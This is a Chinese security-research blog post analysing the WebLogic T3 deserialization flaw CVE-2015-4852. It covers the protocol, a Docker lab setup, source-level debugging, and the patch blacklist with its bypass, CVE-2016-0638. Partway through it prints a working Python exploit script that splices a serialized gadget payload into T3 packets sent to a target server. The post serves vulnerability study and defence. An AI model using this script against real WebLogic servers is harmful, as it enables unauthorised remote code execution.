










# WeblogicT3 反序列化浅析之 cve-2015-4852 - 先知社区

WeblogicT3 反序列化浅析之 cve-2015-4852

- - -

# T3 协议反序列化分析

## 目录导读

\[TOC\]

## 前言

本文将基于对 RMI 的认知，对`cve-2015-4852`漏洞进行分析。该漏洞作为 T3 协议反序列化漏洞的始祖，必有其价值，不仅可以研究漏洞原理，更是可以在补丁中学到防御与绕过的艺术，因为 Weblogic 后面的 T3 协议的反序列化漏洞，基本也是与漏洞补丁对抗的产物。

## T3 协议

之前已经跟大家详细的分析过 RMI 了，Java 原生的 RMI 通信是基于 JRMP 协议的，而在 Weblogic 中，使用的即是 T3 协议。T3 协议允许 Weblogic Server 和其他 Java 程序或其他 Weblpgic Server 之前通信。

### T3 协议组成

-   请求包头
-   请求主体

使用 wireshark 抓包可以看到，下图是 T3 协议的通信数据包

[](https://xzfile.aliyuncs.com/media/upload/picture/20211121233719-e9727f74-4ae0-1.png)

-   HL: 标识后边发起的 T3 协议头长度
-   AS: 标识了发送的序列化数据的容量

查看十六进制数据可以发现

客户端与服务端通信的数据均以`\n\n`结尾

[](https://xzfile.aliyuncs.com/media/upload/picture/20211121233748-fb0c4c9c-4ae0-1.png)

### T3 协议数据交换过程

[](https://xzfile.aliyuncs.com/media/upload/picture/20211121233807-0665a3fe-4ae1-1.png)

## T3 协议攻击原理

目前已经了解了 T3 协议的数据交换过程，我们还需要对数据包中的二进制串有一个深入的认知，才能理解 T3 协议反序列化的原理。

需要知道的有：

-   每个 T3 的数据包中都必须包含 T3 协议头
-   序列化数据的头部二进制串为`aced0005`
-   数据包前 4 字节，标识了数据包的长度
-   长度标识后一个字节标识了该数据包是请求还是响应，01 代表请求，02 代表响应

[](https://xzfile.aliyuncs.com/media/upload/picture/20211121233834-16152608-4ae1-1.png)

那么 T3 协议的攻击原理就简单易懂了，我们只需要替换数据包中的某部分序列化数据为恶意数据即可

图示如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20211121234622-2d101c40-4ae2-1.png)

说是替换，其实是将 T3 协议头写好，拼接第一部分正常序列化数据，拼接恶意的序列化数据，拼接第二部分正常序列化数据，以此来构造恶意的数据包。

## Weblogic 环境搭建

笔者使用的是 A-Team 的工具进行自动化搭建的，github 连接：[https://github.com/QAX-A-Team/WeblogicEnvironment](https://github.com/QAX-A-Team/WeblogicEnvironment)

过程比较简单，详情可以看 README.md

### 1、编译 docker 环境

```bash
docker build --build-arg JDK_PKG=jdk-7u21-linux-x64.tar.gz --build-arg WEBLOGIC_JAR=wls1036_generic.jar -t weblogic1036jdk7u21 .
```

### 2、启动 docker 镜像

```bash
docker run -d -p 7001:7001 -p 8453:8453 -p 5556:5556 --name weblogic1036jdk7u21 weblogic1036jdk7u21
```

此时访问 7001 端口就可以看到 weblogic 的页面了

为了后面我们使用 IDEA 调试 weblogic，还需要将 weblogic 依赖的 jar 包下下来，导入 IDEA 中

```bash
docker exec -it weblogic1036jdk7u21 /bin/bash
cd /u01/app/oracle/
cp -r middleware/ /root/WeblogicEnvironment-master/
```

然后将 modules、wlserver 两个依赖导入 IDEA 即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20211121234558-1ed9a7d6-4ae2-1.png)

## T3 协议攻击示例

本次调试分析源码所使用的 weblogic 版本为 10.3.6

### 1、生成序列化 payload

[](https://xzfile.aliyuncs.com/media/upload/picture/20211121234530-0e4cb2be-4ae2-1.png)

### 2、编写发送数据的脚本

这里笔者在网上找了一份 pyhton 的

```bash
#!/usr/bin/python
import socket
import struct
import sys

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server_address = (sys.argv[1], int(sys.argv[2]))
print 'connecting to %s port %s' % server_address
sock.connect(server_address)

# Send headers
headers='t3 12.2.1\nAS:255\nHL:19\nMS:10000000\nPU:t3://us-l-breens:7001\n\n'
print 'sending "%s"' % headers
sock.sendall(headers)

data = sock.recv(1024)
print >>sys.stderr, 'received "%s"' % data
payloadObj = open(sys.argv[3],'rb').read()

payload='\x00\x00\x09\xe4\x01\x65\x01\xff\xff\xff\xff\xff\xff\xff\xff\x00\x00\x00\x71\x00\x00\xea\x60\x00\x00\x00\x18\x43\x2e\xc6\xa2\xa6\x39\x85\xb5\xaf\x7d\x63\xe6\x43\x83\xf4\x2a\x6d\x92\xc9\xe9\xaf\x0f\x94\x72\x02\x79\x73\x72\x00\x78\x72\x01\x78\x72\x02\x78\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x70\x70\x70\x70\x70\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x70\x06\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x1d\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x43\x6c\x61\x73\x73\x54\x61\x62\x6c\x65\x45\x6e\x74\x72\x79\x2f\x52\x65\x81\x57\xf4\xf9\xed\x0c\x00\x00\x78\x70\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\xe6\xf7\x23\xe7\xb8\xae\x1e\xc9\x02\x00\x09\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x4c\x00\x09\x69\x6d\x70\x6c\x54\x69\x74\x6c\x65\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x4c\x00\x0a\x69\x6d\x70\x6c\x56\x65\x6e\x64\x6f\x72\x71\x00\x7e\x00\x03\x4c\x00\x0b\x69\x6d\x70\x6c\x56\x65\x72\x73\x69\x6f\x6e\x71\x00\x7e\x00\x03\x78\x70\x77\x02\x00\x00\x78\xfe\x01\x00\x00'
payload=payload+payloadObj
payload=payload+'\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x1d\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x43\x6c\x61\x73\x73\x54\x61\x62\x6c\x65\x45\x6e\x74\x72\x79\x2f\x52\x65\x81\x57\xf4\xf9\xed\x0c\x00\x00\x78\x70\x72\x00\x21\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x65\x65\x72\x49\x6e\x66\x6f\x58\x54\x74\xf3\x9b\xc9\x08\xf1\x02\x00\x07\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x5b\x00\x08\x70\x61\x63\x6b\x61\x67\x65\x73\x74\x00\x27\x5b\x4c\x77\x65\x62\x6c\x6f\x67\x69\x63\x2f\x63\x6f\x6d\x6d\x6f\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\x3b\x78\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x56\x65\x72\x73\x69\x6f\x6e\x49\x6e\x66\x6f\x97\x22\x45\x51\x64\x52\x46\x3e\x02\x00\x03\x5b\x00\x08\x70\x61\x63\x6b\x61\x67\x65\x73\x71\x00\x7e\x00\x03\x4c\x00\x0e\x72\x65\x6c\x65\x61\x73\x65\x56\x65\x72\x73\x69\x6f\x6e\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x5b\x00\x12\x76\x65\x72\x73\x69\x6f\x6e\x49\x6e\x66\x6f\x41\x73\x42\x79\x74\x65\x73\x74\x00\x02\x5b\x42\x78\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\xe6\xf7\x23\xe7\xb8\xae\x1e\xc9\x02\x00\x09\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x4c\x00\x09\x69\x6d\x70\x6c\x54\x69\x74\x6c\x65\x71\x00\x7e\x00\x05\x4c\x00\x0a\x69\x6d\x70\x6c\x56\x65\x6e\x64\x6f\x72\x71\x00\x7e\x00\x05\x4c\x00\x0b\x69\x6d\x70\x6c\x56\x65\x72\x73\x69\x6f\x6e\x71\x00\x7e\x00\x05\x78\x70\x77\x02\x00\x00\x78\xfe\x00\xff\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x13\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x4a\x56\x4d\x49\x44\xdc\x49\xc2\x3e\xde\x12\x1e\x2a\x0c\x00\x00\x78\x70\x77\x46\x21\x00\x00\x00\x00\x00\x00\x00\x00\x00\x09\x31\x32\x37\x2e\x30\x2e\x31\x2e\x31\x00\x0b\x75\x73\x2d\x6c\x2d\x62\x72\x65\x65\x6e\x73\xa5\x3c\xaf\xf1\x00\x00\x00\x07\x00\x00\x1b\x59\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\x00\x78\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x13\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x4a\x56\x4d\x49\x44\xdc\x49\xc2\x3e\xde\x12\x1e\x2a\x0c\x00\x00\x78\x70\x77\x1d\x01\x81\x40\x12\x81\x34\xbf\x42\x76\x00\x09\x31\x32\x37\x2e\x30\x2e\x31\x2e\x31\xa5\x3c\xaf\xf1\x00\x00\x00\x00\x00\x78'
print 'sending payload...'
payload = "{0}{1}".format(struct.pack('!i', len(payload)), payload[4:])

sock.send(payload)
```

### 3、使用 socket 发送数据

[](https://xzfile.aliyuncs.com/media/upload/picture/20211121234505-ff9219f8-4ae1-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20211121234443-f208796c-4ae1-1.png)

## 反序列化源码分析

WeblogicT3 对 RMI 传递过来的数据处理过程非常复杂，分析起来可能会有点头疼，但只要始终记住，Weblogic 处理数据时，会对数据按照序列化头部标识进行分片，并逐个反序列化，就明白为什么会触发恶意代码了。

- - -

由于 Server 必定会反序列化 Client 通过 RMI 传递过来的数据，因此我们可以在`InboundMsgAbbrev#readObject()`下断点

debug 启动服务器，并发送恶意代码到 Weblogic Server

程序断在了`readObject()`中

我们可以发现，在 var1 中的 head 正是我们传递过来的数据

[](https://xzfile.aliyuncs.com/media/upload/picture/20211121234413-e08f2d3e-4ae1-1.png)

接着调用`var1.read()`，并赋值给 var2

跟进`read()`

[](https://xzfile.aliyuncs.com/media/upload/picture/20211121234359-d832aaf8-4ae1-1.png)

发现 if 判断为 False，则进入`super.reaad()`中 (`ChunkedInputStream#read`)

[](https://xzfile.aliyuncs.com/media/upload/picture/20211121234319-c02aec86-4ae1-1.png)

这里大概是对数据大小做了一些判断，最终会跳出 if 判断，直接 return

[](https://xzfile.aliyuncs.com/media/upload/picture/20211121234304-b70c59e6-4ae1-1.png)

回到`InboundMsgAbbrev#readObject()`

`var2`的值为 0

跟入`InboundMsgAbbrev#ServerChannelInputStream()`

[](https://xzfile.aliyuncs.com/media/upload/picture/20211121234249-ae4a26f8-4ae1-1.png)

跟入`MsgAbbrevInputStream#getServerChannel()`

[](https://xzfile.aliyuncs.com/media/upload/picture/20211121234235-a5f9a8fc-4ae1-1.png)

在`MsgAbbrevInputStream.connection`中主要存储了一些 RMI 连接的数据，包括端口地址等

[](https://xzfile.aliyuncs.com/media/upload/picture/20211121234220-9cd8ccbc-4ae1-1.png)

接着调用`getChannel()`处理 T3 协议

`getServerChannel()`结果如下，其实就是获取了 socket 相关信息

[](https://xzfile.aliyuncs.com/media/upload/picture/20211121234159-90d0ceb0-4ae1-1.png)

其实到这里我们可以看出经过这几个步骤，能够对传入的 socket 进行 T3 的处理，获取到信息流。接下来调用`readObject()`

[](https://xzfile.aliyuncs.com/media/upload/picture/20211121234137-83447b16-4ae1-1.png)

跟入`ChunkedObjectInputStream#read()`

[](https://xzfile.aliyuncs.com/media/upload/picture/20211121234116-76fc6134-4ae1-1.png)

继续调用`super.read()`

`read()`方法的过程和上面一致了，过程就是为了对客户端传递的数据进行分块处理

按照序列化数据头部，对传递的数据进行分块，然后依次解析每块的类，并加载进内存

这部分过程比较繁杂，建议自己调试分析

紧接着我直接将程序带到`InboundMsgAbbrev#resolveClass()`中

可以看到这里的 var1 就是我们的`AnnotationInvocationHandler`，这里其实是程序已经执行了两圈`resolveClass()`的结果

[](https://xzfile.aliyuncs.com/media/upload/picture/20211121234058-6c0005c4-4ae1-1.png)

后面也会对该类进行反序列化，从而触发`CommonsCollecions`漏洞

## CVE-2015-4852 补丁分析

贴一篇国外的分析文章：[https://zh-cn.tenable.com/security/research/tra-2016-09?tns\_redirect=true](https://zh-cn.tenable.com/security/research/tra-2016-09?tns_redirect=true)

[](https://xzfile.aliyuncs.com/media/upload/picture/20211121234034-5da58418-4ae1-1.png)

可以发现 CVE-2015-4852 的补丁就是引入了一个黑名单，黑名单中的类不会被反序列化

下面 3 个则是黑名单应用的三个位置

## CVE-2015-4852 补丁绕过

绕过的思路如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20211121233954-465174ca-4ae1-1.png)

其实就是由`ServerChannelInputStream`换到了自身的`ReadExternal#InputStream`

贴一个利用程序：

[https://github.com/pwntester/SerialKillerBypassGadgetCollection/blob/master/src/main/java/serialkiller/bypass/Weblogic1.java](https://github.com/pwntester/SerialKillerBypassGadgetCollection/blob/master/src/main/java/serialkiller/bypass/Weblogic1.java)

该补丁的绕过也被 CVE 收录为了 CVE-2016-0638
